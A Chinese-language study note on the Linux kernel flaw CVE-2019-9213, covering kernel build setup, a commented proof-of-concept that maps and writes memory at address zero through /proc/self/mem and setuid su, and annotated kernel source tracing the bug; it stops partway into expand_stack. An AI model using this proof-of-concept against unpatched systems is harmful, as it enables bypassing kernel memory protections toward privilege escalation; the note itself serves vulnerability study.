

- 参考资料
  - https://blog.csdn.net/panhewu9919/article/details/118557802
    - 【kernel exploit】CVE-2019-9213 逻辑漏洞绕过 mmap_min_addr 限制-CSDN博客 (2024_7_23 15_54_00).html
  - https://cert.360.cn/report/detail?id=58e8387ec4c79693354d4797871536ea
    - CVE-2019-9213——linux内核用户空间0虚拟地址映射漏洞分析 - 360CERT (2024_7_23 15_51_51).html
  - https://www.secrss.com/articles/9074 

- https://yunlongs.cn/2021/07/20/CVE-2019-9213/


# 环境搭建
- 大佬提供的现成测试环境
  - Linux-4.20.7 exploit及测试环境下载地址—https://github.com/bsauce/kernel-exploit-factory

- 内核下载以及自己编译
```bash
$ wget https://mirrors.tuna.tsinghua.edu.cn/kernel/v4.x/linux-4.20.7.tar.xz
$ tar -xvf linux-4.20.7.tar.xz
$ make menuconfig  # 设置 SLAB 分配器、设置 CONFIG_E1000 和 CONFIG_E1000、启用 KASan
$ make -j32 # 32线程进行编译
$ make all  # 编译所有内容
$ make modules #编译所有模块  三条命令功能似乎重复

# 编译出的bzImage目录：/arch/x86/boot/bzImage

```
- make menuconfig 中配置如下内核编译选项
  - 设置 SLAB 分配器
    - 在 menuconfig 中选择 SLAB 后，内核会使用 SLAB 分配器来管理内存，而不是其他分配器
    - General setup —> Choose SLAB allocator (SLUB (Unqueued Allocator)) —> SLAB
  - 设置 CONFIG_E1000 和  CONFIG_E1000E
    - CONFIG_E1000 和 CONFIG_E1000E 选项分别用于启用 Intel PRO/1000 千兆网卡驱动和 Intel PRO/1000 PCI Express 网卡驱动，在 menuconfig 中将 CONFIG_E1000 和 CONFIG_E1000E 设置为 =y，表示将这些驱动编译进内核，而不是作为模块加载。
    - Device Drivers —> Network device support —> Ethernet driver support —> Intel devices —> <*><*>
  - 启用 KASan
    - KASan（Kernel Address Sanitizer）是一种内核内存错误检测工具，在menuconfig 中启用 KASan 后，内核在运行时会对内存操作进行检查，帮助发现和调试内存相关的问题。
    - Kernel hacking —> Memory Debugging —> KASan: runtime memory debugger

- 刚下载好的内核目录
```bash
kanxue@kanxue:~/Desktop/CVE-2019-9213/linux-4.20.7$ ls
arch   COPYING  Documentation  fs       ipc      kernel    MAINTAINERS  net      scripts   tools
block  CREDITS  drivers        include  Kbuild   lib       Makefile     README   security  usr
certs  crypto   firmware       init     Kconfig  LICENSES  mm           samples  sound     virt
```
- make menuconfig注意点
  - 需要使用sudo权限，保存编译配置时需要将信息写入.config文件，权限不足回失败
  - 两次esc可以返回上一层，直至退出
  - 上下移动光标选择条目，左右选择要进行的操作，回车确认操作
  - y键选中项目 n键取消项目
  - 左侧的[]里面有三种可能的值： 根据不同的情况进行修改
    - [*]表示将编译进内核(即编译为bzImage)；
    - [M]表示以内核模块的形式编译(即编译为.ko)，这种形式可以用modprobe xxx命令进行加载
    - []表示不对该模块进行编译

- 根据上述路径找到了 SLAB 和 KASan 两个选项
  - 
  - 

- 根据路径 Device Drivers —> Network device support —> Ethernet driver support —> Intel devices —> <*><*> 未找到 CONFIG_E1000 和 CONFIG_E1000E

- 配置 CONFIG_E1000 和 CONFIG_E1000E 的原因
  - https://blog.csdn.net/qq_16097611/article/details/104965045
    - qemu系统模拟启动时，qemu模拟的是e1000的网卡。而linux内核默认编译是不会将e1000网卡驱动编译到内核的。
    - 因此你的编译内核不知道有e1000网卡的存在（识别）。
    - 解决方式:
    - 1)将.config中的CONFIG_E1000和CONFIG_E1000E，变更为=y (我使用的是这种方式）
    - 2)第二种是使用insmod来安装e1000模块
  
- 直接sudo vim .config，可找到 CONFIG_E1000 和 CONFIG_E1000E ，将其m修改为y
  - 


- 编译，虚拟机只有四个处理核心
  - make -j4 


- 编译过程中会报错
```bash
kanxue@kanxue:~/Desktop/CVE-2019-9213/linux-4.20.7$ make -j4
  DESCEND  objtool
  HOSTCC   /home/kanxue/Desktop/CVE-2019-9213/linux-4.20.7/tools/objtool/fixdep.o
  HOSTCC  scripts/selinux/genheaders/genheaders
  HOSTCC  scripts/selinux/mdp/mdp
  HOSTLD   /home/kanxue/Desktop/CVE-2019-9213/linux-4.20.7/tools/objtool/fixdep-in.o
  LINK     /home/kanxue/Desktop/CVE-2019-9213/linux-4.20.7/tools/objtool/fixdep
In file included from scripts/selinux/mdp/mdp.c:49:
./security/selinux/include/classmap.h:249:2: error: #error New address family defined, please update secclass_map.
  249 | #error New address family defined, please update secclass_map.
      |  ^~~~~
make[3]: *** [scripts/Makefile.host:90: scripts/selinux/mdp/mdp] Error 1
make[2]: *** [scripts/Makefile.build:516: scripts/selinux/mdp] Error 2
make[2]: *** Waiting for unfinished jobs....
In file included from scripts/selinux/genheaders/genheaders.c:19:
./security/selinux/include/classmap.h:249:2: error: #error New address family defined, please update secclass_map.
  249 | #error New address family defined, please update secclass_map.
      |  ^~~~~
make[3]: *** [scripts/Makefile.host:90: scripts/selinux/genheaders/genheaders] Error 1
make[2]: *** [scripts/Makefile.build:516: scripts/selinux/genheaders] Error 2
make[1]: *** [scripts/Makefile.build:516: scripts/selinux] Error 2
make[1]: *** Waiting for unfinished jobs....
  HOSTCC  scripts/kallsyms

```
- llm给出的错误可能原因
  - 

- 尝试解决方案
https://blog.csdn.net/zhangpengfei991023/article/details/109672491

- 卡在了内核编译这里，探究内核编译失败的原因，扩展学习linux内核编译
  - linux内核\linux内核编译


- 根据上述资料中的https://blog.csdn.net/u014679440/article/details/135659333 ubuntu:16.04 可编译的版本 linux 4.0 <= ~ < linux 5.0，即使用16.04的虚拟机编译目标的 linux-4.20.7 内核

- 根据上述资料，和 linux-4.20.7 版本最近的ubuntu发行版为 Ubuntu 18.10 (Cosmic Cuttlefish)内核版本：4.18

- 两种方案均可尝试，处于便捷性和未来通用性考虑，尝试用16.04 虚拟机进行编译

# 代码分析
## poc
- 
```c
int main(void){
  // 尝试用 mmap 系统调用将一块内存映射到地址 0x10000，大小为 0x1000 字节
  // 访问权限是读写，标志包括 MAP_PRIVATE、MAP_ANONYMOUS、MAP_GROWSDOWN 和 MAP_FIXED
  // MAP_GROWSDOWN 向低地址扩展，类似栈
  void *map = mmap((void*)0x10000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1,0);

  //mmap映射成功则返回映射区的内存起始地址，这里应该是0x10000，否则返回MAP_FAILED(－1)，错误原因存于errno 中。
  if(map == MAP_FAILED) err(1,"mmap");

  // 打开 /proc/self/mem 文件，该文件表示当前进程的内存
  int fd = open("/proc/self/mem", O_RDWR);
  if(fd == -1) err(1,"open");

  // 将 map 转换为无符号长整型地址，即映射成功的内存地址
  unsigned long addr =(unsigned long)map;

  while(addr != 0){
    addr -= 0x1000;
    //使用 lseek 将文件描述符 fd 的偏移量设置为 addr，后续对fd所代表的对象的读写操作均从addr开始
    if(lseek(fd, addr, SEEK_SET)== -1)err(1,"lseek");
    char cmd[1000];

    //LD_DEBUG=help 设置 LD_DEBUG 环境变量为 help，用于调试动态链接器。该变量控制动态链接器的调试输出。LD_DEBUG=help 会打印动态链接器支持的所有调试选项。
    //su 1>&%d 会将1写入fd 所代表的内存地址上，从循环来看，就是将1分别写道 0x9000-》0x8000-》.....0x0的内存地址上
    //注意这里使用su表示用到了root权限
    sprintf(cmd, "LD_DEBUG=help su 1>&%d",fd);
    system(cmd);
  }
  //使用 system 调用打印当前进程的内存映射信息。
  system("head -n1 /proc/$PPID/maps");
  //试图读取并打印 NULL 地址处的数据，这会导致段错误（segmentation fault），因为访问用户态下访问 NULL 地址是非法的。
  printf("data at NULL: 0x%lx\n",*(unsigned long *)0);
}
```
### void *map = mmap((void*)0x10000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS|MAP_GROWSDOWN|MAP_FIXED, -1,0);
- 此处代码通过mmap实现一个匿名内存映射，***效果是函数执行完毕后，当前进程中从虚拟内存地址0x10000起始的0x1000字节内存会被映射且被初始化为0，当前进程对该内存区域具有读写权限，相当于当前进程申请到了这一片内存空间可供使用***

- 关于mmap函数
  - void* mmap(void* addr, size_t len, int prot, int flags, int fd, off_t offset);

  - mmap是一种内存映射文件的方法，即将一个文件或者其它对象映射到进程的地址空间，实现文件磁盘地址和进程虚拟地址空间中一段虚拟地址的一一对映关系。实现这样的映射关系后，进程就可以采用指针的方式读写操作这一段内存，而系统会自动回写脏页面到对应的文件磁盘上，即完成了对文件的操作而不必再调用read,write等系统调用函数。相反，内核空间对这段区域的修改也直接反映用户空间，从而可以实现不同进程间的文件共享。

  - 各个参数的含义如下：
    - addr：指定映射的起始地址，通常设为NULL，由内核来分配。
    - length：代表将文件中映射到内存的部分的长度。
    - prot：映射区域的保护方式，可以是以下几种方式的组合：
    - PROT_EXEC：映射区域可被执行。
    - PROT_READ：映射区域可被读取。
    - PROT_WRITE：映射区域可被写入。
    - PROT_NONE：映射区域不能存取。
    - flags：映射区的特性标志位，常用的选项有：
    - MAP_SHARED：写入映射区的数据会复制回文件，且允许其他映射该文件的进程共享。
    - MAP_PRIVATE：对映射区的写入操作会产生一个映射区的复制，对此区域的修改不会写回原文件。
    - fd：要映射到内存中的文件描述符，即通过open函数打开文件时返回的值。如果是匿名映射（不涉及文件），可以设置为-1；某些系统不支持匿名内存映射时，也可使用fopen打开/dev/zero文件后进行映射来达到类似效果。
    - offset：文件映射的偏移量，通常设置为0，表示从文件最前方开始对应，且offset必须是分页大小的整数倍。

  - 当mmap用作内存映射文件时，int fd 表示打开的文件的句柄，映射成功后，可以访问当前进程中指定虚拟地址并以此访问文件内容

  - mmap 有匿名映射的用法，所谓匿名映射，表示不存在fd这么个真实的文件。实现匿名映射的方式主要有以下两种：
    - BSD 提供匿名映射的办法是fd =-1，同时 flag 指定为MAP_SHARE|MAP_ANON。
      - ptr = mmap（NULL，sizeof（int），PROT_READ|PROT_WRITE，MAP_SHARED|MAP_ANON，-1,0）；
    - SVR4 提供匿名映射的办法是 open  /dev/zero设备文件，把返回的文件描述符，作为mmap的fd参数。fd = open（"/dev/zero",O_RDWR）;/dev/zero 是一个特殊的文件，当你读它的时候，它会提供无限的空字符(NULL, ASCII NUL, 0x00)一个作用是用它作为源，产生一个特定大小的空白文件。
    - 匿名内存映射适用于具有亲属关系的进程之间；由于父子进程之间的这种特殊的父子关系，在父进程中先调用mmap()，然后调用fork()，那么，在调用fork() 之后，子进程继承了父进程的所有资源，当然也包括匿名映射后的地址空间和mmap()返回的地址，这样父子进程就可以通过映射区域进行通信了；
    - 由此可见，内存映射可以作为一种进程间通讯机制

- 关于mmap匿名映射的内存的性质，
  - 匿名内存：因为使用了 MAP_ANONYMOUS，没有文件被映射到内存区域。换句话说，映射的内存是新分配的、未初始化的内存。
  - 初始状态：这块内存区域在初始状态下通常会被填充为全零。也就是说，在 mmap 返回后，地址 0x10000 到 0x11000 的区域将是一块 4 KB 的零初始化内存。
  - MAP_PRIVATE：表示这个映射是私有的，任何对这块内存的修改都不会影响其他进程。
  - 由于使用了 MAP_ANONYMOUS，实际上被映射的内存是一块新的、未初始化（初始为零）的内存区域。具体来说：
    - 内存来源：这块内存是从操作系统的虚拟内存空间中分配的，不与任何磁盘文件关联。
    - 访问权限：根据 PROT_READ | PROT_WRITE，这块内存区域可以进行读写操作。
    - 地址范围：映射的虚拟地址范围是 0x10000 到 0x11000（大小为 4 KB）。

- 匿名内存映射确实是一种内存分配方式，它允许进程在指定的地址范围内分配一块内存，并对这块内存设置特定的访问权限。具体来说，匿名内存映射使用 mmap 函数并结合 MAP_ANONYMOUS 标志来实现。

## 漏洞成因分析
  - sprintf(cmd, "LD_DEBUG=help su 1>&%d",fd); 中 su 1 > fd 会触发内存写入操作，即调用write系统调用进入内核，内核中如何继续处理？
  - linux中一切皆文件，此处fd对应的文件为/proc/self/mem 表示当前进程的内存，故要寻找/proc文件写入操作触发时调用内核中哪个函数
  - linux内核对于文件系统通用的结构体是file_operations，fs/proc/base.c中的代码提供与/proc相关的文件操作。***（fs/proc/base.c是从已有漏洞分析资料中获知的，若从挖掘的角度看，如何确认这一点？可以通过调试内核确定，或多学习内核相关代码？通过llm？）***
    - fs/proc/base.c 中有多个file_operations结构体，其中根据需求不同，保存各自的open read write等函数
      - 
      - 
    - 内存操作 对应file_operations 结构体是 proc_mem_operation
      ```c
      static const struct file_operations proc_mem_operations = {
        .llseek		= mem_lseek,
        .read		= mem_read,
        .write		= mem_write,
        .open		= mem_open,
        .release	= mem_release,
      };
      ``` 
- mem_write函数是对mem_rw函数的封装。
```c
static ssize_t mem_write(struct file *file, const char __user *buf,
			 size_t count, loff_t *ppos)
{
	return mem_rw(file, (char __user*)buf, count, ppos, 1);
}
```
- 在while循环中，。读则相反，先调用access_remote_vm函数读取远程进程中的数据，然后调用copy_to_user函数将读取的page拷贝到buf中。
```c
//file: 文件指针，指向当前打开的 /proc 文件。
//buf: 用户空间的缓冲区，用于存储读取的数据或提供写入的数据。
//count: 需要读取或写入的字节数。
//ppos: 文件偏移量，表示在目标进程虚拟内存中的地址。
//write: 标志位，指示是读取操作（0）还是写入操作（1）。
static ssize_t mem_rw(struct file *file, char __user *buf,
			size_t count, loff_t *ppos, int write)
{
	struct mm_struct *mm = file->private_data;
	unsigned long addr = *ppos;
	ssize_t copied;
	char *page;
	unsigned int flags;

	if (!mm)
		return 0;
  //获得一个空闲内存页，相当于内核中分配一个页面大小的内存
	page = (char *)__get_free_page(GFP_KERNEL);
	if (!page)
		return -ENOMEM;

	copied = 0;
  //获取 mm 结构，如果失败，跳转到 free 释放内存并返回
	if (!mmget_not_zero(mm))
		goto free;
  
  // 设置访问标志
	flags = FOLL_FORCE | (write ? FOLL_WRITE : 0);

	while (count > 0) { //关键循环
    //此处应该是对需要操作的内存长度进行转换,返回值后续会被作为内存读写长度
		int this_len = min_t(int, count, PAGE_SIZE);

    //如果是写操作，首先通过copy_from_user函数将待写内容buf拷贝到分配的page中，然后调用access_remote_vm函数写入远程进程
		if (write && copy_from_user(page, buf, this_len)) {
			copied = -EFAULT;
			break;
		}
    //访问远程虚拟内存
		this_len = access_remote_vm(mm, addr, page, this_len, flags);
		if (!this_len) {
			if (!copied)
				copied = -EIO;
			break;
		}
    //读则相反，先调用access_remote_vm函数读取远程进程中的数据，然后调用copy_to_user函数将读取的page拷贝到buf中。
		if (!write && copy_to_user(buf, page, this_len)) {
			copied = -EFAULT;
			break;
		}

		buf += this_len;
		addr += this_len;
		copied += this_len;
		count -= this_len;
	}
	*ppos = addr;

	mmput(mm);
free:
	free_page((unsigned long) page);
	return copied;
}
```
-  access_remote_vm 函数是对__access_remote_vm函数的封装，位于 mm/memory.c
```c

/**
 * access_remote_vm - access another process' address space
 * @mm:		the mm_struct of the target address space
 * @addr:	start address to access
 * @buf:	source or destination buffer
 * @len:	number of bytes to transfer
 * @gup_flags:	flags modifying lookup behaviour
 *
 * The caller must hold a reference on @mm.
 */
int access_remote_vm(struct mm_struct *mm, unsigned long addr,
		void *buf, int len, unsigned int gup_flags)
{
	return __access_remote_vm(NULL, mm, addr, buf, len, gup_flags);
}
```

- __access_remote_vm 函数中 调用 get_user_pages_remote 将要写入虚拟地址转为物理地址，并获取该物理地址所在内存页信息，再将内存页通过kmap映射到内核空间中，最后调用copy_to_user_page或copy_to_from_page对该内存地址进行写或读
```c
/**
tsk: 任务结构体指针，用于页面错误记账。如果为非 NULL，则使用它进行页面错误统计。
mm: 目标进程的内存描述符（mm_struct）。
addr: 要操作的目的内存地址
buf: 缓冲区，用于存储读取的数据或提供写入的数据。
len: 要操作的数据长度。
gup_flags: 获取用户页面的标志，FOLL_WRITE 表示写入操作。

__access_remote_vm 函数通过获取内存页并在内核空间映射它们，实现对另一个进程地址空间的访问。
**/
int __access_remote_vm(struct task_struct *tsk, struct mm_struct *mm,
                       unsigned long addr, void *buf, int len, unsigned int gup_flags)
{
    struct vm_area_struct *vma;
    void *old_buf = buf;
    int write = gup_flags & FOLL_WRITE;

    // 读锁定 mmap_sem 信号量，以保护 VMA 链表
    down_read(&mm->mmap_sem);

    // 循环处理每一页
    while (len) {
        int bytes, ret, offset;
        void *maddr;
        struct page *page = NULL;

        // 根据要操作的内存地址获取对应内存页
        //get_user_pages_remote函数和get_user_pages函数都是对__get_user_pages_locked函数的封装，
        //get_user_pages_remote 通过页表查找虚拟地址对应的物理地址，并获取该物理地址所在的内存页
        //addr表示要操作的虚拟内存地址，该函数尝试获取目标进程 mm 中 addr 处的一个页面。如果成功，返回获取的内存页，并将页面和 VMA 信息存储在 page 和 vma 中
        ret = get_user_pages_remote(tsk, mm, addr, 1, gup_flags, &page, &vma, NULL);
        if (ret <= 0) {
#ifndef CONFIG_HAVE_IOREMAP_PROT
            break;
#else
            // 处理 VM_IO | VM_PFNMAP VMA
            vma = find_vma(mm, addr);
            if (!vma || vma->vm_start > addr)
                break;
            if (vma->vm_ops && vma->vm_ops->access)
                ret = vma->vm_ops->access(vma, addr, buf, len, write);
            if (ret <= 0)
                break;
            bytes = ret;
#endif
        } else {//当前分支中，获得addr对应内存页成功，开始读或对应内存页，从而实现上层函数的读写功能
            // 计算页面内的偏移量和字节数
            bytes = len;
            offset = addr & (PAGE_SIZE - 1);
            if (bytes > PAGE_SIZE - offset)
                bytes = PAGE_SIZE - offset;

            // 映射页面到内核地址空间
            //通过kmap函数将目标内存页page映射到内核地址空间
            maddr = kmap(page);
            if (write) {
                // 写入操作
                //如果是写操作则调用copy_to_user_page函数，之后调用set_page_dirty_lock函数将page设置为脏，
                copy_to_user_page(vma, page, addr, maddr + offset, buf, bytes);
                set_page_dirty_lock(page);
            } else {
                // 读取操作
                //读操作则调用copy_from_user_page函数。之后调用kunmap函数取消映射。
                copy_from_user_page(vma, page, addr, buf, maddr + offset, bytes);
            }
            // 解除页面映射
            kunmap(page);
            put_page(page);
        }

        // 更新指针和计数器
        len -= bytes;
        buf += bytes;
        addr += bytes;
    }

    // 释放 mmap_sem 信号量
    up_read(&mm->mmap_sem);

    return buf - old_buf;
}
```
- 关于 get_user_pages_remote 函数  位于mm/gup.c
```c  
long get_user_pages_remote(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas, int *locked)
{
  //get_user_pages_remote函数调用__get_user_pages_locked函数时设置了FOLL_REMOTE标志，而 get_user_pages 没调用该标志
	return __get_user_pages_locked(tsk, mm, start, nr_pages, pages, vmas,
				       locked,
				       gup_flags | FOLL_TOUCH | FOLL_REMOTE);
}
EXPORT_SYMBOL(get_user_pages_remote);

```

- __get_user_pages_locked 函数将虚拟地址转为物理地址，并获取该物理地址所在内存
- 具体流程是
  - 进行参数检查和变量初始化
  - 进入死循环，调用__get_user_pages ，参数start指定要获取物理内存页的虚拟内存地址, 参数nr_pages指定要获取内存页的数量，poc中为1，该函数返回获取的物理内存页的数量
  - 若__get_user_pages返回值大于0 且 成功获得 nr_pages 数量个内存页面，则退出死循环，函数返回
  - 否则 有可能再次执行一次nr_pages 为1 的 __get_user_pages 调用，并且 将start 增大一个内存页的大小，并继续循环
- 上述关键调用是 __get_user_pages 函数

```c
/**
struct task_struct *tsk: 指向任务结构的指针，表示当前的进程。
struct mm_struct *mm: 指向内存管理结构的指针，表示进程的内存管理信息。
unsigned long start: 起始地址，表示要获取的页面的起始虚拟地址。
unsigned long nr_pages: 要获取的页面数量。
struct page **pages: 指向页面结构指针数组的指针，用于存储获取到的页面。
struct vm_area_struct **vmas: 指向虚拟内存区域结构指针数组的指针，用于存储获取到的虚拟内存区域。
int *locked: 指向整数的指针，用于指示是否持有内存管理的读锁。
unsigned int flags: 标志位，用于控制获取页面的行为。
**/
static __always_inline long __get_user_pages_locked(struct task_struct *tsk,
						struct mm_struct *mm,
						unsigned long start,
						unsigned long nr_pages,
						struct page **pages,
						struct vm_area_struct **vmas,
						int *locked,
						unsigned int flags)
{
	long ret, pages_done;
	bool lock_dropped;

  //如果locked不为空，检查vmas是否为空，并确保*locked的初始值为1。
	if (locked) {
		/* if VM_FAULT_RETRY can be returned, vmas become invalid */
		BUG_ON(vmas);
		/* check caller initialized locked */
		BUG_ON(*locked != 1);
	}

  //如果pages不为空，将FOLL_GET标志添加到flags中。
	if (pages)
		flags |= FOLL_GET;
  
  //pages_done：记录已获取的页面数量。
  //lock_dropped：标记是否在获取页面过程中释放了锁。
	pages_done = 0;
	lock_dropped = false;
	for (;;) {
    // 从start虚拟地址开始，获取对应nr_pages数量个内存页，poc中nr_pages 为 1，函数返回成功获取到内存页的个数
		ret = __get_user_pages(tsk, mm, start, nr_pages, flags, pages, vmas, locked);
		if (!locked)
			/* VM_FAULT_RETRY couldn't trigger, bypass */
			return ret;
		/* VM_FAULT_RETRY cannot return errors */
		if (!*locked) {
			BUG_ON(ret < 0);
			BUG_ON(ret >= nr_pages);
		}
		if (!pages)
			/* If it's a prefault don't insist harder */
			return ret;

    //__get_user_pages函数返回值大于0说明调用成功，减少nr_pages增加pages_done，nr_pages为0则退出循环。
    //poc中因为nr_pages 为1，即仅获取一个物理内存页，如果__get_user_pages 成功获取物理内存，则返回1，ret为1，此处进入if并退出死循环
		if (ret > 0) {
			nr_pages -= ret;
			pages_done += ret;
			if (!nr_pages)
				break;
		}
		if (*locked) {
			/*
			 * VM_FAULT_RETRY didn't trigger or it was a
			 * FOLL_NOWAIT.
			 */
			if (!pages_done)
				pages_done = ret;
			break;
		}
		/* VM_FAULT_RETRY triggered, so seek to the faulting offset */
		pages += ret;
		start += ret << PAGE_SHIFT;

		/*
		 * Repeat on the address that fired VM_FAULT_RETRY
		 * without FAULT_FLAG_ALLOW_RETRY but with
		 * FAULT_FLAG_TRIED.
		 */
  
    //如果之前 nr_pages -= ret; 之后 nr_pages 不为0，则此处根据start地址，再次获取一个物理内存页
		*locked = 1;
		lock_dropped = true;
		down_read(&mm->mmap_sem);
		ret = __get_user_pages(tsk, mm, start, 1, flags | FOLL_TRIED,
				       pages, NULL, NULL);
		if (ret != 1) {
			BUG_ON(ret > 1);
			if (!pages_done)
				pages_done = ret;
			break;
		}
    //若ret为1，成功获取该内存页面，nr_pages递减  pages_done 递增，一定条件下start地址增加，再次开始循环
		nr_pages--;
		pages_done++;
		if (!nr_pages)
			break;
		pages++;
		start += PAGE_SIZE;
	}
	if (lock_dropped && *locked) {
		/*
		 * We must let the caller know we temporarily dropped the lock
		 * and so the critical section protected by it was lost.
		 */
		up_read(&mm->mmap_sem);
		*locked = 0;
	}
	return pages_done;
}


```
- __get_user_pages  函数 该函数作用根据 用户态虚拟内存地址（start） 获取 对应的物理内存页面，关键逻辑是 先调用find_extend_vma函数，获得start对应的vma结构，之后根据start和vma结构 调用 follow_page_mask 获得对应物理内存页，具体流程如下
  - find_extend_vma 函数的作用是查找包含给定用户空间地址的虚拟内存区域(VMA)。如果没有找到对应的VMA，它会尝试扩展现有的VMA以包含该地址。这个函数的调用是为了定位需要获取页面的内存区域。
  - 在找到VMA后，代码会检查该VMA是否允许根据给定的 gup_flags 访问相应的页面。如果不允许，则返回 -EFAULT 错误。
  - 对于普通页面,代码使用 follow_page_mask 函数获取对应的页面。如果页面不存在,它会通过 faultin_page 函数将缺失的页面加载到内存中。
  - 对于大页(hugetlb页面),代码会使用 follow_hugetlb_page 函数进行特殊处理。
  - 如果成功获取了一个页面,代码会将该页面添加到 pages 数组中(如果提供了该数组),并将相应的VMA添加到 vmas 数组中(如果提供了该数组)。
  - 代码会重复上述过程,直到获取了所需数量的页面,或者发生错误。
  - 最后,函数返回获取的页面数量,或者发生错误时返回相应的错误码。
 
- 漏洞的进一步触发位于  find_extend_vma 中
```c
/**
 * @tsk:	task_struct of target task
 * @mm:		mm_struct of target mm
 * @start:	starting user address
 * @nr_pages:	number of pages from start to pin
 * @gup_flags:	flags modifying pin behaviour
 * @pages:	array that receives pointers to the pages pinned.
 *		Should be at least nr_pages long. Or NULL, if caller
 *		only intends to ensure the pages are faulted in.
 * @vmas:	array of pointers to vmas corresponding to each page.
 *		Or NULL if the caller does not require them.
 * @nonblocking: whether waiting for disk IO or mmap_sem contention
**/
static long __get_user_pages(struct task_struct *tsk, struct mm_struct *mm,
		unsigned long start, unsigned long nr_pages,
		unsigned int gup_flags, struct page **pages,
		struct vm_area_struct **vmas, int *nonblocking)
{
	long ret = 0, i = 0;
	struct vm_area_struct *vma = NULL;
	struct follow_page_context ctx = { NULL };

	if (!nr_pages)
		return 0;

	VM_BUG_ON(!!pages != !!(gup_flags & FOLL_GET));

	/*
	 * If FOLL_FORCE is set then do not force a full fault as the hinting
	 * fault information is unrelated to the reference behaviour of a task
	 * using the address space
	 */
	if (!(gup_flags & FOLL_FORCE))
		gup_flags |= FOLL_NUMA;

	do {
		struct page *page;
		unsigned int foll_flags = gup_flags;
		unsigned int page_increm;

		/* first iteration or cross vma bound */
		if (!vma || start >= vma->vm_end) {
      //__get_user_pages函数查找vma是通过调用find_extend_vma函数实现的，如果vma->vm_start <= addr说明addr在VMA空间范围内；否则说明addr落在空洞中。如果设置了VM_GROWSDOWN标志位调用expand_stack函数扩展vma。
			vma = find_extend_vma(mm, start);
			if (!vma && in_gate_area(mm, start)) {
				ret = get_gate_page(mm, start & PAGE_MASK,
						gup_flags, &vma,
						pages ? &pages[i] : NULL);
				if (ret)
					goto out;
				ctx.page_mask = 0;
				goto next_page;
			}

			if (!vma || check_vma_flags(vma, gup_flags)) {
				ret = -EFAULT;
				goto out;
			}
			if (is_vm_hugetlb_page(vma)) {
				i = follow_hugetlb_page(mm, vma, pages, vmas,
						&start, &nr_pages, i,
						gup_flags, nonblocking);
				continue;
			}
		}
retry:
		/*
		 * If we have a pending SIGKILL, don't keep faulting pages and
		 * potentially allocating memory.
		 */
		if (unlikely(fatal_signal_pending(current))) {
			ret = -ERESTARTSYS;
			goto out;
		}
		cond_resched();
		//调用follow_page_mask函数查询页表获取虚拟地址对应的物理页，如果返回null会调用faultin_page函数。获取到page的指针之后存在pages数组中。	
		page = follow_page_mask(vma, start, foll_flags, &ctx);
		if (!page) {
			ret = faultin_page(tsk, vma, start, &foll_flags,
					nonblocking);
			switch (ret) {
			case 0:
				goto retry;
			case -EBUSY:
				ret = 0;
				/* FALLTHRU */
			case -EFAULT:
			case -ENOMEM:
			case -EHWPOISON:
				goto out;
			case -ENOENT:
				goto next_page;
			}
			BUG();
		} else if (PTR_ERR(page) == -EEXIST) {
			/*
			 * Proper page table entry exists, but no corresponding
			 * struct page.
			 */
			goto next_page;
		} else if (IS_ERR(page)) {
			ret = PTR_ERR(page);
			goto out;
		}
		if (pages) {
			pages[i] = page;
			flush_anon_page(vma, page, start);
			flush_dcache_page(page);
			ctx.page_mask = 0;
		}
next_page:
		if (vmas) {
			vmas[i] = vma;
			ctx.page_mask = 0;
		}
		page_increm = 1 + (~(start >> PAGE_SHIFT) & ctx.page_mask);
		if (page_increm > nr_pages)
			page_increm = nr_pages;
		i += page_increm;
		start += page_increm * PAGE_SIZE;
		nr_pages -= page_increm;
	} while (nr_pages);
out:
	if (ctx.pgmap)
		put_dev_pagemap(ctx.pgmap);
	return i ? i : ret;
}
```

- find_extend_vma
- __get_user_pages函数查找vma是通过调用find_extend_vma函数实现的，如果vma->vm_start <= addr说明addr在VMA空间范围内；否则说明addr落在空洞中。如果设置了VM_GROWSDOWN标志位调用expand_stack函数扩展vma。
- vma表示进程地址空间中一个虚拟内存区域，其中 unsigned long vm_start; 表示虚拟内存区域的起始地址，unsigned long vm_end;表示结束地址，如果此时 addr小于 vma->vm_start，且VM_GROWSDOWN被设置（表示允许VMA向下增长），则调用expand_stack函数尝试扩展栈区域。 ***该函数会申请新的内存页,并将新页与当前VMA链接起来。*** 如果扩展失败,则返回NULL。
```c
struct vm_area_struct *
find_extend_vma(struct mm_struct *mm, unsigned long addr)
{
	struct vm_area_struct *vma;
	unsigned long start;

	addr &= PAGE_MASK;
  //寻找addr对应vma
	vma = find_vma(mm, addr);
	if (!vma)
		return NULL;
  //若addr位于虚拟内存区域的起始地址 vma->vm_start 之后，说明正常此时返回vma
	if (vma->vm_start <= addr)
		return vma;
	if (!(vma->vm_flags & VM_GROWSDOWN))
		return NULL;
	start = vma->vm_start;
  //如果addr小于 vma->vm_start 且设置了  VM_GROWSDOWN 则 执行 expand_stack 向下扩展vma
	if (expand_stack(vma, addr))
		return NULL;
	if (vma->vm_flags & VM_LOCKED)
		populate_vma_page_range(vma, addr, start, NULL);
	return vma;
}
#endif

EXPORT_SYMBOL_GPL(find_extend_vma);
```

- expand_stack函数是对expand_downwards函数的封装。expand_downwards函数中做的首先就是调用security_mmap_addr函数检查权限，唯一的参数是虚拟内存地址
- security_mmap_addr函数是 Linux 安全模块(如 SELinux)提供的一个钩子函数,用于检查是否允许在指定的内存地址上进行内存映射操作。如果返回非零值,则表示不允许进行映射,函数直接返回错误码。
- security_mmap_addr 函数的作用是确保进程无法在未经授权的内存区域进行映射,从而防止一些安全漏洞的利用。它根据当前进程的安全上下文和目标内存地址,检查是否满足相应的安全策略。如果通过了安全检查,则允许进行后续的内存映射操作。
```c
int expand_stack(struct vm_area_struct *vma, unsigned long address)
{
